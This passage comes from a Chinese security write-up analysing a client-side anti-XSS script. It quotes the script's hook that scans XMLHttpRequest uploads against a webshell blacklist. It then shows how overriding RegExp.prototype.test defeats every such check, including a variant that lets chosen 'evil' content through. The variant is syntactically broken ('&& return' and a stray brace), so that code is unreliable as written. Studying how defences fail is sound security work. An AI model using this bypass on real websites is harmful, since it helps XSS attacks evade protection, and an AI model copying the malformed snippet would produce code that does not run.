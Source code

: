 可以看到使用了 RegExp 的 test 方法进行了正则匹配，再看看 Hook_CSRFWebshell 这个模块：

```
s.prototype.Hook_CSRFWebshell = function(e) {
  if (!XMLHttpRequest) return;
  var t = ["CSRF_WEBSHELL", "CSRF_WEBSHELL:"];
  s.CSRFWEBSHELL_alert_level = e, XMLHttpRequest.prototype.send = function(e) {
    for (i in s.webshell_black) {
      var n = new RegExp(s.webshell_black[i], "i");
      if (n.test(unescape(e))) {
        s.Report_w(t[0]), s.Report_w(t[1]), s.Report(e.match(n)[0]);
        if (s.CSRFWEBSHELL_alert_level == 0) {
          s._ajaxsend.call(this, e);
          return
        }
        if (s.CSRFWEBSHELL_alert_level == 1 && !confirm("护心镜检测到网页正在向服务器上传危险文件（webshell），是否拦截？")) {
          s._ajaxsend.call(this, e);
          return
        }
      }
    }
    s._ajaxsend.call(this, e)
  }
}

```

首先重写了XMLHttpRequest原型对象的send方法，接着还是使用 RegExp.test 进行正则匹配。

如此，只要重写 RegExp 的 test 方法，使其永远返回 false，那么这些拦截代码就会全部失效了：

```
RegExp.prototype.test = function(){return !1}

```

这就是第一种绕过方式，仅一行代码，就让“【永别了,XSS攻击!】”的护心镜彻底失效了，看来想要根治 XSS 还任重道远。

当然了如果自己想要使用 test 方法的话，事先应该将该方法保存一下。

如果在绕过护心镜的同时，又不想破坏网站业务代码（毕竟 RegExp 经常被用到），那么可以扩充一下：

```
  _test = RegExp.prototype.test;
  RegExp.prototype.test = function (n) {
    n.slice(0, 4) === 'evil' && return _test.call(this, n);
    return !1;
  }
}

```

这样可以实现自定义规则对内容是否放行。

同样，在`Hook_CreateElement`、`Hook_Image`、`Hook_Source`这三个模块中，在进行白名单校验前， 会对 tag （html标签名：script、iframe等）进行匹配，若匹配不成功，则不会进入报警拦截流程， 代码如下（以Hook_Source为例）：
